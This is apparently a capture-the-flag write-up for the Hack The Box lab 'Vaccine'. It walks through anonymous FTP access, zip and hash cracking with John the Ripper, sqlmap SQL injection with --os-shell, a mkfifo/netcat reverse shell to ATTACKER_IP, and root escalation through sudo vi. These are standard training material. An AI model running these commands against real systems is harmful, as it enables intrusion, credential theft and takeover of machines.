# Vaccine

##### Difficulty: [ Very Easy ]

**Tags:** `Linux`,  `FTP`,  `SQL`,  `SUID`

---

##### Written: 21/12/2021

##### IP address: 10.129.48.65

---

### [ Besides SSH and HTTP, what other service is hosted on this box? ]

Let's begin with a basic **Nmap** scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 10.129.48.65
```



From the results, we can see that **3** ports are open: **21 (FTP)**, **22 (SSH)** and **80 (HTTP)**

The other service being hosted: **FTP**

---

### [ This service can be configured to allow login with any password for specific username. What is that username? ]

FTP can be configured with **anonymous login**. This allows any user to log into the server without needing to provide a password, as long as they log in with the username 'anonymous'.

If we look at the nmap results, we can see that anonymous login has been enabled:



<br>

Specific Username: **anonymous**

---

### [ What is the name of the file downloaded over this service? ]

Let's log into the FTP server with the username 'anonymous':

```
ftp 10.129.48.65
```


There is a file called **backup.zip** in the server. 

---

### [ What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? ]

**zip2john**

---

### [ What is the password for the admin user on the website? ]

We can download **backup.zip** onto our local machine by using the `get` command.

After doing so, I tried to unzip it:



Unfortunately, looks like we need a password.

To crack the password, we can use `zip2john` to convert the zip file into a format that is readable by `John the Ripper`. 

```
zip2john backup.zip > backup_to_crack
```

Next, we run `john` on it:

```
john backup_to_crack --wordlist=/usr/share/wordlists/rockyou.txt
```



We now have the password to unzip the file - **741852963**

<br>

Let's unzip **backup.zip** now.



We get 2 files: **index.php** and **style.css**

If we look at **index.php**, we can find the admin credentials for the HTTP website:



The password is hashed, so let's use an online hash cracker to crack it. My go-to is www.hashes.com:



The admin password is: **qwerty789**

---

### [ What option can be passed to sqlmap to try to get command execution via the sql injection? ]

**From the help menu of sqlmap:**



Option: **--os-shell**

---

### [ What program can the postgres user run as root using sudo? ]

Visit the HTTP website running on port 80, we get a login page.

After logging in with credentials - **admin:qwerty789**, we are brought to the following dashboard:



There doesn't seem to be much, although there is a table containing different car models. It's most likely that this table is connected to a backend database, which means that it could be susceptible to a SQL Injection. If we wish to carry out an SQLi attack, we need to first find an injectable point.

Let's try to search for something by using the search bar on the top-right.



Looks like there is a `search` parameter being sent with the request. This could be our injection point!

Let's now run a `sqlmap` scan on this parameter to see if its injectable:

```
sqlmap -u http://10.129.48.65/dashboard.php?search= -p search --cookie="PHPSESSID=iah3il7p0qls36gkp52rguhj4a" --risk=3 --level=5 --os-shell --batch
```

Something important to note is that we need to supply the cookies that we were given after we had successfully logged in. This can be done with `--cookie`

We also specify that we want to target the `search` parameter by using the `-p` option.

Finally, we run `--os-shell` so that if we do manage to carry out an SQLi, we can open an interactive OS shell where we can run commands.

After the scan is done, we find out that `search` is vulnerable to many different types of injection payloads.



Using those payloads, `sqlmap` then opens a shell for us:



Nice, now that we can run commands, let's try to open a reverse shell. I'll be using the following payload from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```



And with that, we've successfully opened a reverse shell into the target machine!

<br>

Looking around the machine, I discovered that the home directory of the **postgres** user was in **/var/lib/postgresql**. There is a hidden directory called **.ssh** which actually contains the **private ssh key** of postgres:



With this private key, let's go ahead and use it to log into postgres's account via ssh. This is so that we do not need to rely on the reverse shell as it is not very reliable and disconnects every few minutes. 

To do so, just copy the private key over to a file on our local machine, set the correct permissions (400 or 600) and we can then use it to log in:



At this stage, we need to find out the password of the postgres user if we wish to find out his **sudo privileges**.

It took me a very long time of digging around the machine before I finally found the password in the **dashboard.php** file located at **/var/www/html**:



postgres' password is: **P@s5w0rd!**

<br>

With that, we can check postgres' sudo privileges with `sudo -l`:



From the results, we can see that postgres can run `vi` as root.

---

### [ Submit user flag ]

The user flag can be found in postgres' home directory, which is located at **/var/lib/postgresql**.



---

### [ Submit root flag ]

Going back to postgres' sudo privileges, we can only run `vi` as root if we use it to open the **/etc/postgresql/11/main/pg_hba.conf** file.

This is fine as there is a way to spawn a shell while we are inside the text editor. 

First, we run `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. This will open the **pg_hba.conf** file in the text editor. Note that we are running `vi` as root right now.



Next, we type the following command in `vi` to open a shell:

```
:!/bin/sh
```



With that, we have opened a privileged shell as root! 

*(Privesc method is from: https://gtfobins.github.io/gtfobins/vi/)*

We can then obtain the root flag from **/root**:


